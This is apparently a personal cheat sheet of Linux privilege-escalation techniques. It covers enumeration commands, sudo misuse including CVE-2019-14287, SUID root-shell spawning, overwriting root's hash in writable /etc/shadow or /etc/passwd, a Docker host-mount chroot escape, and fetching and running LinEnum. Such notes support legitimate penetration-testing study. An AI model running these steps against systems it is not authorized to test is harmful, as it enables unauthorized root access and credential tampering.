					Enumeration
- Kernal Version: `uname -a`
- Services Running: `ps aux`
- past commands: `history`

<!-- -->
					Sudo 
- Can you su without a password?		       `su root`
- are you already a sudo user?			   `sudo su -`
- what can we run with sudo?			  `sudo -l`
- sudo versions < 1.8.28 are vulnerable to `CVE-2019-14287`

<!-- -->
					Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

					Writable /etc/shadow
`ls -l /etc/shadow`					is /etc/shadow writable?
- mkpasswd -m sha-512 password		Makes password Hash
- replace root password hash with the one you just generated
- su root								switch to root

<!-- -->

				 	Writable /etc/passwd
`ls -l /etc/passwd`					is /etc/passwd writeable?
- `openssl passwd password`			      Generate password hash
- place new password hash between first and second colon (:) of the root user's row (replacing the "x").
- su root							      switch to root

<!-- -->

					Suid
- Find all Suids `find / -perm -u=s -type f 2>/dev/null`

<!-- -->

					Docker
- get image name using 'docker ps'
- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

<!-- -->
					Identify Capabilities

- `getcap -r / 2>/dev/null`

<!-- -->

					LinEnum
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- `./LinEnum.sh -t -r report.txt`

<!-- -->
	
					Misc
-- https://gtfobins.github.io/